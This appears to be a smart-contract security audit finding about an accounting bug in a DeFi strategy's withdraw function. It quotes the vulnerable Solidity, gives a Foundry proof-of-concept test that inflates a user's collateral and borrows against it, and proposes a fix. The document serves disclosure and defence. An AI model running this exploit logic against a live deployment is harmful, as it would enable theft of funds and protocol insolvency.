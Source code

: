 ## **Vulnerability Details**

Users can go through the sequence of `HoldingManager.deposit -> StrategyManager.invest -> Strategy.deposit -> StrategyManager.claimInvestment -> Strategy.withdraw` to claim yield from specific strategies.

In the case of the `ElixrStrategy`, the yield, represented as USDT (`tokenIn`), will be transferred to the user through the aforementioned call sequence.

The issue arises during the `ElixrStrategy.withdraw` call flow, where `params.balanceBefore` for the `tokenIn` is not cached prior to the swap from `deUSD` to `USDT` via a Uniswap pool. This allows a malicious user to inflate their yield, which will then be added to their `collateral[holding]` mapping state variable and artificially increasing the actual collateral amount they possess in their holding.

This flaw affects the entire accounting of `collateral[holding]` maintained by users and can lead to several consequences, such as:

1. Users are guaranteed more collateral to withdraw.
2. They can borrow more jUSD without any actual collateral backing it, as they virtually inflate their USDT accounting in the `collateral[holding]` mapping stored in the SharesRegistry of USDT.
3. They can repeatedly execute the above call flow to artificially inflate their collateral balance, preventing successful liquidations.

Consequently, the protocol may ultimately face insolvency.

In `ElixrStrategy.withdraw`

```solidity
function withdraw(
        uint256 _shares,
        address _recipient,
        address _asset,
        bytes calldata _data
    ) external override nonReentrant onlyStrategyManager returns (uint256, uint256, int256, uint256) {
        require(_asset == tokenIn, "3001");

        WithdrawParams memory params = WithdrawParams({
            shares: _shares,
            totalShares: recipients[_recipient].totalShares,
            shareRatio: 0,
            shareDecimals: sharesDecimals,
            investment: 0,
            assetsToWithdraw: 0,
            balanceBefore: 0,
            withdrawnAmount: 0,
            yield: 0,
            fee: 0
        });

        params.shareRatio = OperationsLib.getRatio({
            numerator: params.shares,
            denominator: params.totalShares,
            precision: params.shareDecimals,
            rounding: OperationsLib.Rounding.Floor
        });

        _burn({
            _receiptToken: receiptToken,
            _recipient: _recipient,
            _shares: params.shares,
            _totalShares: params.totalShares,
            _tokenDecimals: params.shareDecimals
        });

        params.investment = (recipients[_recipient].investedAmount * params.shareRatio) / 10 ** params.shareDecimals;
        uint256 deUsdBalanceBefore = IERC20(deUSD).balanceOf(address(this));

        _genericCall({
            _holding: _recipient,
            _contract: tokenOut,
            _call: abi.encodeCall(ISdeUsdMin.unstake, (address(this)))
        });

        uint256 deUsdAmount = IERC20(deUSD).balanceOf(address(this)) - deUsdBalanceBefore;

        // Swap deUSD to USDT on Uniswap
        _swapExactInputMultihop({
            _tokenIn: deUSD,
            _amountIn: deUsdAmount,
            _recipient: _recipient,
            _swapData: _data,
            _swapDirection: SwapDirection.ToTokenIn
        });

        // Take protocol's fee from generated yield if any.
@>        params.withdrawnAmount = IERC20(tokenIn).balanceOf(_recipient) - params.balanceBefore; //@audit balanceBefore is 0 here, it is not first cached before hand
        params.yield = params.withdrawnAmount.toInt256() - params.investment.toInt256();

        // Take protocol's fee from generated yield if any.
        if (params.yield > 0) {
            params.fee = _takePerformanceFee({ _token: tokenIn, _recipient: _recipient, _yield: uint256(params.yield) });
            if (params.fee > 0) {
                params.withdrawnAmount -= params.fee;
                params.yield -= params.fee.toInt256();
            }
        }

        recipients[_recipient].totalShares -= _shares;
        recipients[_recipient].investedAmount = params.investment > recipients[_recipient].investedAmount
            ? 0
            : recipients[_recipient].investedAmount - params.investment;

        emit Withdraw({
            asset: _asset,
            recipient: _recipient,
            shares: params.shares,
            withdrawnAmount: params.withdrawnAmount,
            initialInvestment: params.investment,
            yield: params.yield
        });

        // Register `_recipient`'s withdrawal operation to stop generating jigsaw rewards.
        jigsawStaker.withdraw({ _user: _recipient, _amount: _shares });

        return (params.withdrawnAmount, params.investment, params.yield, params.fee);
    }
```

## **POC**

The below POC demonstrates that with a principal of 10k USDT deposited, he successfullly inflated his collateral balance by ~7.65k worth of USDT which he can subsequently use to borrow more JUSD.

He has 8.65k worth of USDT but still manages to borrow using 8k USDT as he inflated his collateral balance when withdrawing yield via ElixrStrategy

To run the test

1. Add the test `test_elixr_withdraw_tokenIn_wrong_before_balance` to `ElixrStrategy_fork.t.sol`
2. run `forge test --mt test_elixr_withdraw_tokenIn_wrong_before_balance -vv`



```solidity
    function test_elixr_withdraw_tokenIn_wrong_before_balance() public notOwnerNotZero(user) {
        // uint256 amount = bound(_amount, 1e6, 1e8);

        uint256 amount = 10_000e6;
        address userHolding = initiateUser(user, tokenIn, amount);

        // Get amount invested
        uint256 investAmount = 1000e6; 
        bytes memory data = abi.encode(
            investAmount * DECIMAL_DIFF, // amountOutMinimum
            uint256(block.timestamp), // deadline
            abi.encodePacked(tokenIn, poolFee, USDC, poolFee, deUSD)
        );


        // Invest into the tested strategy via strategyManager
        vm.prank(user, user);
        strategyManager.invest(tokenIn, address(strategy), investAmount, 0, data);

        (, uint256 totalShares) = strategy.recipients(userHolding);
        uint256 tokenInBalanceBefore = IERC20(tokenIn).balanceOf(userHolding);

        _transferInRewards(100_000e18);
        skip(90 days);

        vm.prank(user, user);
        strategy.cooldown(userHolding, totalShares);
        skip(7 days);

        bytes memory dataClaimInvest = abi.encode(
            investAmount, // amountOutMinimum
            uint256(block.timestamp), // deadline
            abi.encodePacked(deUSD, poolFee, USDC, poolFee, tokenIn)
        );

        vm.prank(user, user);
        (uint256 assetAmount,,,) = strategyManager.claimInvestment({
            _holding: userHolding,
            _token: tokenIn,
            _strategy: address(strategy),
            _shares: totalShares,
            _data: dataClaimInvest
        });

        
        (, address shareRegistryTokenIn) = stablesManager.shareRegistryInfo(tokenIn);
        uint256 tokenInBalance = ISharesRegistry(shareRegistryTokenIn).collateral(userHolding);

        // User's collateral balance after investment claimed is way more than his principal amount 10_000e6 deposited
        // These are collateral that do not even exist in the holding contract and is inflated via the StrategyManager.claimInvestment -> ElixrStrategy.withdraw call
        console.log("User's actual balance of tokenIn in holding contract", IERC20(tokenIn).balanceOf(userHolding));
        console.log("User's balance after investment claimed ", tokenInBalance);
        console.log("Inflated tokenIn amount", tokenInBalance - amount);

        vm.startPrank(user);

        uint256 collateralUsedForBorrowing = 8000e6; // 8000e6 worth of USDT is borrowed. Under non inflated circumstances, solvency checks will revert this borrowing call
        IHoldingManager holdingManager = IHoldingManager(address(manager.holdingManager()));
        holdingManager.borrow(tokenIn, collateralUsedForBorrowing, 0, false);
        uint256 borrowedAmount = ISharesRegistry(shareRegistryTokenIn).borrowed(userHolding);
        console.log("User's JUSD amount", borrowedAmount);

        vm.stopPrank();
    }
```

## **Root Cause**

In `ElixrStrategy.withdraw`, the `params.balanceBefore`, which indicates the holding balance prior to the swap for `deUSD`, is not adequately stored.

## **Impact**

Internal accounting breaks, Protocol insolvency.

## **Mitigation**

Consider first caching the `params.balanceBefore` for the token before doing the swap for deUSD in `ElixrStrategy.withdraw`